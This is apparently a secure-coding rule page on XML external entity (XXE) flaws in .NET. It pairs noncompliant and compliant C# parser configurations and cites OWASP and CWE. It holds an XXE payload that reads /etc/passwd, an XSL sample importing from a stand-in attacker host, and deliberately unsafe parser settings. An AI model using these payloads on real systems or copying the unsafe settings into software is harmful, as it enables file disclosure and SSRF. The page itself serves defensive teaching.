 
[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

Example in this XML document, an external entity read the /etc/passwd file:


    <?xml version="1.0" encoding="utf-8"?>
      <!DOCTYPE test [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
      ]>
    <note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
      <to>&xxe;</to>
      <from>Jani</from>
      <heading>Reminder</heading>
      <body>Don't forget me this weekend!</body>
    </note>


In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:


    <?xml version="1.0" encoding="UTF-8"?>
    <xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
      <xsl:import href="http://www.attacker.com/evil.xsl"/>
      <xsl:include href="http://www.attacker.com/evil.xsl"/>
     <xsl:template match="/">
      &content;
     </xsl:template>
    </xsl:stylesheet>


It is recommended to disable access to external entities and network access in general.

## Noncompliant Code Examples

System.Xml.XmlDocument


    // .NET Framework < 4.5.2
    XmlDocument parser = new XmlDocument(); // Noncompliant: XmlDocument is not safe by default
    parser.LoadXml("xxe.xml");
    
    or
    
    // .NET Framework 4.5.2+
    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlDocument.XmlResolver configured with XmlUrlResolver that makes it unsafe
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET Framework < 4.5.2
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Noncompliant: XmlTextReady is not safe by default
    while (reader.Read())
    { ... }
    
    or
    
    // .NET Framework 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlTextRead.XmlResolver configured with XmlUrlResolver that makes it unsafe
    while (reader.Read())
    { ... }


System.Xml.XmlReader


    // .NET Framework 4.5.2+
    XmlReaderSettings settings = new XmlReaderSettings();
    settings.DtdProcessing = DtdProcessing.Parse;
    settings.XmlResolver = new XmlUrlResolver();
    XmlReader reader = XmlReader.Create("xxe.xml", settings); // Noncompliant: XmlReader is safe by default and becomes unsafe if DtdProcessing = Parse and XmlResolver is not null
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XPathDocument doc = new XPathDocument("example.xml"); // Noncompliant
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## Compliant Solution

System.Xml.XmlDocument


    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = null; // Compliant: XmlResolver has been set to null
    parser.LoadXml("xxe.xml");
    
    or
    
    XmlDocument parser = new XmlDocument(); // Compliant: XmlDocument is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    while (reader.Read())
    { ... }
    
    // .NET 4.0 to .NET 4.5.1
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.DtdProcessing = DtdProcessing.Prohibit; // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    
    // < .NET 4.0
    XmlTextReader reader = new XmlTextReader(stream);
    reader.ProhibitDtd = true; // Compliant: default is false


System.Xml.XmlReader


    XmlReader reader = XmlReader.Create("xxe.xml"); // Compliant: XmlReader is safe by default
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XmlReader reader = XmlReader.Create("example.xml");
    XPathDocument doc = new XPathDocument(reader); // Compliant: XPathDocument is safe when being given a safe XmlReader
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## See

- [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29) - XML External Entities<br>  (XXE)
- [OWASP XXE Prevention Cheat<br>  Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#net)
- [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
- [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

